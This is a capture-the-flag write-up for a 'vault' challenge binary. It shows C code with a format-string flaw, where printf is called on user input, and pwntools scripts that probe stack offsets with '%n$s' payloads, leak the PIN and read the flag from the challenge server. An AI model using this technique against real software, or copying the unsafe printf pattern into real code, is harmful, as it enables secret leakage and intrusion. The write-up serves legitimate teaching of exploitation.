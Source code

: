 # Vault Writeup

The vault program has options to **Open Vault** and **Read flag**, but accessing it requires the correct PIN.

```bash
$ ./vault    

--- Vault Menu ---
1. Open Vault
2. Add Item
3. Remove Item
4. List Items
5. Read flag
6. Exit
Enter your choice: 1
Enter your PIN to access the vault: fdsfds
the pin fdsfds is not correct

```


The program checks the PIN, and if it matches, grants access. If the PIN is incorrect, an error message displays the incorrect PIN. The error message passes our input to `printf` without proper formatting, which leads to a format string vulnerability.
```c
accessGranted = checkPIN(pin);
if (accessGranted) {
    printf("Vault opened successfully.\n");
} 
...
if (accessGranted) readFlag();
else printf("Please open the vault first.\n");
```

```c
bool checkPIN(char * pin) {

    char enteredPIN[PIN_LENGTH];
    printf("Enter your PIN to access the vault: ");
    fgets(enteredPIN, PIN_LENGTH, stdin);
    enteredPIN[strcspn(enteredPIN, "\n")] = '\0';  

    if (strcmp(pin, enteredPIN) == 0) {
        return true;
    }
    char output[100];
    sprintf(output, "the pin %s is not correct",enteredPIN );
    printf(output);
    return false;
}
```


To solve we can find the format string offset to where the pin is stored on the stack in order to leak it. I use a loop in python using `%<n>$s` to locate the PIN at index 7 by catching crashes on invalid addresses. With the PIN position known, we leak it to access the vault and read the flag.

```py
# Loop to find the offset of the pin
for i in range(10):
    try: 
        p = start()
        payload = f"%{i}$s".encode()
        p.clean()
        p.sendline(b"1")
        p.clean()
        p.sendline(payload)

        p.recvuntil("the pin ")
        leak = p.recvuntil(b" is", drop=True)

        print(f"{i}: {leak}")
    except:
        p.close()   
        pass
exit(0)
```


**Full solve script**
```py
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF(args.EXE or 'vault')
host = args.HOST or 'fessemisk-845c-vault.ept.gg'
port = int(args.PORT or 1337)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    p = connect(host, port, ssl=True)
    if args.GDB:
        gdb.attach(p, gdbscript=gdbscript)
    return p

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
b *checkPIN+0x7D
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

# Find the offset of the pin
# for i in range(10):
#     try: 
#         p = start()
#         payload = f"%{i}$s".encode()
#         p.clean()
#         p.sendline(b"1")
#         p.clean()
#         p.sendline(payload)

#         p.recvuntil("the pin ")
#         leak = p.recvuntil(b" is", drop=True)

#         print(f"{i}: {leak}")
#     except:
#         p.close()   
#         pass
# exit(0)

p = start()

# leak pin
p.clean()
p.sendline(b"1")
p.clean()
p.sendline(b"%7$s")

p.recvuntil("the pin ")
pin = p.recvuntil(b" is", drop=True)


# read flag 
p.clean()
p.sendline(b"1")
p.clean()
p.sendline(pin)
p.clean()
p.sendline(b"5")
p.clean()


p.interactive()
```